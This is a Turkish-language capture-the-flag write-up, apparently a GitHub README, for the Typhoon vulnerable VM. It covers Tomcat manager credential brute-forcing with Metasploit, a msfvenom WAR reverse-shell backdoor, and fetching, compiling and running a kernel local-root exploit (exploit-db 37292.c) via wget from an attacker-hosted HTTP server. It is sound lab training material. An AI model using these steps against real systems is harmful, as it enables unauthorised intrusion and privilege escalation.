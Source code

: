 Saygıdeğer PRISMACSI’nin hazırlamış olduğu “Hedef ben miyim Tayfun?” dan gelen typhoon vulnerable vm adlı makineyi bu yazımla beraber çözmüş olacağız. Makinenin linki https://www.prismacsi.com/typhoon-vulnerable-vm/ adresinde mevcuttur.

İlk olarak makineyi virtualbox’ımıza kurduktan sonra hangi IP adresini aldığını öğrenmek için netdiscover aracından yararlanmaktayız. Net discoverin sonucunda aşağıdaki resimde de görüldüğü gibi 192.168.1.104 IP adresini aldığını buluyoruz. Bundan sonraki işlemleri bu IP adresi üzerinden yapacağız.
 
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/1.png)
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/2.png)

IP adresini de bulduğumuza göre, şimdi nmap ile port taramasını yaparak açık (open) olan servisleri (services) ve versiyonları (version) öğrenmiş olacağız. Taramayı yaptıktan sonra ise 8080 portunun açık olduğunu ve Tomcat’in çalıştığını gördük. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/3.png)

Tomcat çalışıyor olduğu için 192.168.1.104:8080 adresini ziyaret ettik. Karşımıza It Works (çalıştı) adlı sayfa geldi. Bu sayfayı incelediğimiz de manager webapp adlı linki gördük.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/4.png)

Buna tıkladığımızda ise karşımıza bir login (giriş) ekranı geldi. User Name ve Password bilgilerini istedi.  Bu bilgilere her ne kadar basic olarak tomcat:tomcat yaparak girsekte bu her zaman tutmayabilir. Böyle durumlarda şifreyi kırmanız gerekir. Bunun için de msfconsole adlı araçtan yararlanacağız. Terminale msfconsole yazdıktan sonra karşımıza msfconsole ekranı gelmektedir. Burada yapacağımız iş tomcat’in giriş bilgilerini elde etmek olduğundan ilk önce hangi modülü kullanmamız gerektiğini bilmemiz gerekiyor. search tomcat yazdığımızda msfconsole bizim için tüm tomcat modüllerini karşımıza getirecek. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/5.png)

Şifreyi kırmak istediğimizden dolayı bizi ilgilendiren modülün 9.sıradaki olan modül olduğunu öğrendik. Kısa yolla use 9 dediğimizde otomatik olarak o modüle geçiş sağlanmış oldu. Hangi ayarları yapmamız gerektiğini show options yardımı ile görüyoruz. Karsımıza gelen ekranda RPORT’un otomatik olarak 8080 geldiğini gördüğümüz için değiştirme gereği duymadık. Sadece RHOST’u ayarlamamız gerekmektedir. Bunun için de set RHOST 192.168.1.104 adlı komutu girdik. Burada unutmamız gereken nokta ise RHOST’a hedef IP’yi yazmamız olması. Bunu da girdikten sonra run diyerek brute-force saldırsını başlatmış olduk.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/6.png)

Saldırının sonucunda user name ve password bilgilerine erişmiş olduk. User name; tomcat, password; tomcat.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/7.png)

Gerekli bilgileri girdikten sonra OK diyerek giriş yapıyoruz.
 
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/8.png)

Giriş yaptıktan sonra aşağıdaki gibi bir sayfa gelmektedir. Bu sayfayı inceledikten sonra şunu fark ediyoruz. War uzantılı bir dosyayı deploy edebiliyoruz yani yükleyebiliyoruz. War uzantısı java’nın uzantısıdır. Bu bize şu avantajı sağlar; war uzantılı bir backdoor oluşturup siteye deploy edersek, bunun vasıtası ile sisteme sızabiliriz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/9.png)

War uzantılı dosyayı msfconsole’a giriş yaptıktan sonra msfvenom üzerinden yapıyoruz. Aşağıdaki gibi bir komut yazıyoruz. Bu komutta LHOST’un dinleyecek olan ip yi yani kendi makinenizi yazmanız gerekmektedir. LPORT ise hangi port üzerinden dinlemek istediğiniz. msf.war ise war uzantısına istediğimiz bir isim veriyoruz. Bunu oluşturup siteye deploy ediyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/10.png)

Siteye deploy ettikten sonra dinlememiz için gerekli olan ayarlamaları ise yine msfconsole üzerinden yapıyoruz. Bunun için exploit modülü olan multi/handler’i seçiyoruz. Bunu seçtikten sonra payload olarak ise java/jsp_shell_reverse_tcp’yi seçiyoruz. Ardından lhost ve lport’a ise msfvenom oluştururken ki kullandığınız IP ve portu set ediyoruz. Bunları oluşturduktan sonra exploit diyip dinlemeye başlıyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/11.png)

Dinlemeye başladıktan sonra sızma işleminin başarılı olması için yüklediğimiz deploy’un üstüne tıklamamız gerekmektedir.  

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/12.png)

Tıkladıktan sonra aşağıda da görüldüğü gibi sızma işlemi başarıyla olmuş oldu.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/13.png)

İçeriye sızdıktan sonraki hedefimiz root yetkisi almak. Öncelikle şu an kim olduğumuzu sorgulamak için id komutunu kullanıyoruz. Çıkan sonuçta tomcat kullanıcısı olduğumuzu öğrendik. Root yetkisi almak için uname -a komutu ile kernel bilgilerini elde ettik. 3.13.0-32 generic olduğunu öğrendikten sonra internetten bunun hakkında araştırma yaptığımızda gerekli exploit’in ne olduğunu bulduk. 
https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c  

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/14.png)

Github sayfasından bulduğumuz kodu farklı bir terminal üzerinden wget https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c komutu ile bilgisayarımıza indiriyoruz. İndirdikten sonra terminale python -m SimpleHTTPServer 9000 komutu ile Directory Listening açıyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/15.png)

Bu komutu girdikten sonra, tarayıcımıza girip 192.168.1.103:9000 yazıyoruz (IP adresinin kendi IP adresi ile değiştirmeyi unutmayın.). Karşımıza gelen web sayfasında kodun ismi olan 37292.c’nin üzerine tıklayıp url kısmını kopyalıyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/16.png)

Url’yi aldıktan sonra tekrar sızma işlemini yaptığımız terminale dönüyoruz. Burada kodu indirmemiz gerektiği için temp (/tmp) dosyasına girmemiz gerekmektedir çünkü temp bize indirme işlemine izin vermektedir. Genellikle bu tarz makinelerin hepsinde bu böyledir ama ls -la komutu ile izinleri kontrol etmekte fayda var. cd /tmp komutu ile temp klasörünün içerisine giriyoruz. Girdikten sonra kopyaladığımız url’yi wget http://192.168.1.103:9000/37292.c komutu ile indiriyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/17.png)

İndirdikten sonra indirmiş olduğumuz kodu derlememiz gerekmektedir. Bunun için gcc 37292.c -o exploit komutunu yazarak exploit adında bir output vermesini beklemekteyiz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/18.png)

Outputumuzu aldıktan sonra işlem yapabilmesi için yetki vermemiz gerekmektedir. Bunun için ise chmod u+x exploit komutunu kullanacağız. Yetki verdikten sonra ./exploit ile çalıştırıyoruz. Bu işlemden sonra id komutunu yazdığımızda tomcat kullanıcısın kaybolup artık root kullanıcısı olduğumuzu görüyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/19.png)
  
Root olup olmadığımızı bir şekilde daha kontrol edebiliriz. cd .. ile bir üst dizine çıkıyoruz. Çıktıktan sonra cd root yazıyoruz. ls komutu ile bu dizindeki dosyaları görüyoruz. Resimde de gözüktüğü gibi bir tane root-flag dosyası görüyoruz. Bu dosyayı cat root-flag ile açtığımızda karşımızda bize tebrikler rootsunuz mesajı veriyor. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/20.png)

Bilgilendirme yazım bitmiştir. Vakit ayırdığınız için teşekkür ederim. Bir sonraki writeup’da görüşmek üzere.
